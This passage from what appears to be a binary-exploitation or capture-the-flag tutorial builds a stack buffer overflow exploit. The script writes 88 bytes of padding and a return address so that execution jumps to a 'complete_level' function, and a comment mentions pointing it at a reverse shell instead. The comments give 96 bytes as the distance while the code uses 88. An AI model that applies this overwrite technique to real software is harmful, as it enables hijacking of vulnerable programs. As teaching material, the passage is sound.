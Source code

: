 <figure><img src="../../../.gitbook/assets/image (15).png" alt="" width="290"><figcaption></figcaption></figure>

Here, we can see our padding required for our exploit which is 58 in hex and 88 in decimal:

```python
padding = b'A'*88
```

## `exploit.py`

Time to start breaking stuff:

```python
from pwn import *
import sys

padding = b'A'*88

sys.stdout.buffer.write(padding)
sys.stdout.buffer.write(b"\xa9\x51\x55\x55\x55\x55\x00\x00")

# How does target binary consume data?
# Where does the data go in memory (on the stack)?
# How much data do we need to get to return address? -- How far is buffer from return address. 96 bytes
# Where do we want to divert execution to? -- In this case complete_level. If we wanted it to be a reverse shell it would be the start of our buffer.
# complete_level address 0x5555555551a9
```
